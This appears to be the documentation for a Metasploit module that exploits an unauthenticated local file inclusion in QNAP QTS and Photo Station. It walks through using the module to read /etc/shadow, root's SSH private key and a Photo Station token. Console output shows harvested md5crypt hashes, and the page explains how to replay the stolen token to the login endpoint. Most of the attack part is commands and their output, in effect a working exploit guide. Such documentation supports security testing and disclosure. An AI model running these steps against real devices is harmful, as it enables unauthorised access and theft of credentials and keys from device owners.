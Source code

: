## Vulnerable Application

### Introduction

This module exploits a local file inclusion in QNAP QTS and Photo
Station that allows an unauthenticated attacker to download files from
the QNAP filesystem.

Because the HTTP server runs as root, it is possible to access
sensitive files, such as SSH private keys and password hashes.

`/etc/shadow` entries can be processed offline, the module saves them in the creds,
and they can be cracked using john the ripper, or hashcat.

There is some confusion in the CVEs assigned to this vulnerability, it corresponds to
one of these : CVE-2019-7192, CVE-2019-7194 or CVE-2019-7195, notice that two of them
have the same description.

## Verification Steps

1. Start `msfconsole`
2. Do: `use auxiliary/gather/qnap_lfi`
3. Do: `set RHOSTS [RHOSTS]`
4. Do: `check`
5. Verify if `check` detects vulnerable hosts as it should
6. Do: `run`
7. Do: `loot`
8. Verify if the run command retrieved the content of /etc/shadow if the host was vulnerable, and saved the file in the loot
9. Do: `creds`
10. Verify if the retrieved hashes were saved in the creds, and their hash type identified correctly.

## Options

### FILEPATH

Set this to the file you want to dump. The default is `/etc/shadow`.

### PRINT

Whether to print file contents to the screen, defaults to true.

## Scenarios

### QNAP QTS 4.3.3

#### Dumping hashes from `/etc/shadow`

```
msf auxiliary(gather/qnap_lfi) > run
[*] Running module against [REDACTED]

[*] Getting the Album Id
[+] Got Album Id : cJinsP
[*] Getting the Access Code
[+] Got Access Code : NjU1MzR8MXwxNTkwNjk0MDIy
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528212705_default_[REDACTED]_qnap.http_394810.bin
[+] File content:
admin:$1$$0EDxoz0B/Et7aYxLtR/Ik/:14233:0:99999:7:::
guest:$1$$ysap7EeB9ODCrO46Psdbq/:14233:0:99999:7:::
httpdusr:!:16923:0:99999:7:::
Cherle:$1$$Bb3R7AIqzIemj7kGq5k/p1:16923:0:99999:7:::
redouane:$1$$l265pXOEMo0cRDhod/Z3M1:16923:0:99999:7:::
Test:$1$$0EDxoz0B/Et7aYxLtR/Ik/:16928:0:99999:7:::
Merle:$1$JjtNtEJx$PMtCY0tpb2N/rjck2fHVI0:17438:0:99999:7:::
[appuser]:!:17451:0:99999:7:::
[sshd]:!:17637:0:99999:7:::
a9d01ba7:$1$PKQtJPZZ$3RdJRQozKzdx1axJqP9Fe/:18405:0:99999:7:::
[*] adding the /etc/shadow entries to the database
[*] Auxiliary module execution completed
msf auxiliary(gather/qnap_lfi) > loot

Loot
====

host           service  type       name    content                   info  path
----           -------  ----       ----    -------                   ----  ----
[REDACTED]              qnap.http  shadow  text/plain                      /home/redouane/.msf4/loot/20200528212705_default_[REDACTED]_qnap.http_394810.bin

msf auxiliary(gather/qnap_lfi) > creds
Credentials
===========

host  origin         service  public      private                             realm  private_type        JtR Format
----  ------         -------  ------      -------                             -----  ------------        ----------
      [REDACTED]              admin       $1$$0EDxoz0B/Et7aYxLtR/Ik/                 Nonreplayable hash  md5crypt
      [REDACTED]              guest       $1$$ysap7EeB9ODCrO46Psdbq/                 Nonreplayable hash  md5crypt
      [REDACTED]              Cherle      $1$$Bb3R7AIqzIemj7kGq5k/p1                 Nonreplayable hash  md5crypt
      [REDACTED]              redouane    $1$$l265pXOEMo0cRDhod/Z3M1                 Nonreplayable hash  md5crypt
      [REDACTED]              Test        $1$$0EDxoz0B/Et7aYxLtR/Ik/                 Nonreplayable hash  md5crypt
      [REDACTED]              Merle       $1$JjtNtEJx$PMtCY0tpb2N/rjck2fHVI0         Nonreplayable hash  md5crypt
      [REDACTED]              a9d01ba7    $1$PKQtJPZZ$3RdJRQozKzdx1axJqP9Fe/         Nonreplayable hash  md5crypt

msf auxiliary(gather/qnap_lfi) >
```

The hashes can be used to login from the web interface, or through ssh if it's enabled.

#### Dumping ssh private keys

```
msf auxiliary(gather/qnap_lfi) > set FILEPATH /root/.ssh/id_rsa
FILEPATH => /root/.ssh/id_rsa
msf auxiliary(gather/qnap_lfi) > exploit
[*] Running module against [redacted]

[*] Getting the Album Id
[+] Got Album Id : [redacted]
[*] Getting the Access Code
[+] Got Access Code : [redacted]
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528213018_default_[redacted]_qnap.http_983860.bin
[+] File content:
-----BEGIN RSA PRIVATE KEY-----
[redacted]
-----END RSA PRIVATE KEY-----
[*] Auxiliary module execution completed
msf auxiliary(gather/qnap_lfi) >
```

#### Retrieving the token, can be used to authenticate

```
msf auxiliary(gather/qnap_lfi) > set FILEPATH /share/Multimedia/.@__thumb/ps.app.token
FILEPATH => /share/Multimedia/.@__thumb/ps.app.token
msf auxiliary(gather/qnap_lfi) > exploit
[*] Running module against [redacted]

[*] Getting the Album Id
[+] Got Album Id : [redacted]
[*] Getting the Access Code
[+] Got Access Code : [redacted]
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528213233_default_[redacted]_qnap.http_815651.bin
[+] File content:
[redacted]
[*] Auxiliary module execution completed
msf auxiliary(gather/qnap_lfi) >
```

The token can then be used to authenticate, by sending a POST request to the uri `/cgi-bin/authLogin.cgi`, for the example above:

sending the POST payload: `app_token=[redacted]&app=PHOTO_STATION&auth=1`

This would return an `authSid`, that can be used with most endpoints that require authentication.

### QNAP QTS 4.3.6 with Photo Station 5.7.9

```
msf auxiliary(gather/qnap_lfi) > show options

Module options (auxiliary/gather/qnap_lfi):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      3                yes       Traversal Depth (to reach the root folder)
   FILEPATH   /etc/fstab       yes       The file to read on the target
   PRINT      true             yes       Whether or not to print the content of the file
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.250.5    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the QNAP Website
   VHOST                       no        HTTP server virtual host


Auxiliary action:

   Name      Description
   ----      -----------
   Download  Download the file at FILEPATH


msf auxiliary(gather/qnap_lfi) > run
[*] Running module against 192.168.250.5

[*] Getting the Album Id
[+] Got Album Id : cJinsP
[*] Getting the Access Code
[+] Got Access Code : MHwxfDE1OTE4MTk2NjY=
[*] Attempting Local File Inclusion
[+] File download successful, saved in /home/smcintyre/.msf4/loot/20200610160738_default_192.168.250.5_qnap.http_072626.txt
[+] File content:
# /etc/fstab: static file system information.
#
# <file system> <mount pt>     <type>	<options>         <dump> <pass>
/dev/ram       /              ext2	defaults         1      1
proc		/proc	       proc     defaults	  0	 0
none            /dev/pts        devpts  gid=5,mode=620  0       0

[*] Auxiliary module execution completed
msf auxiliary(gather/qnap_lfi) >
```

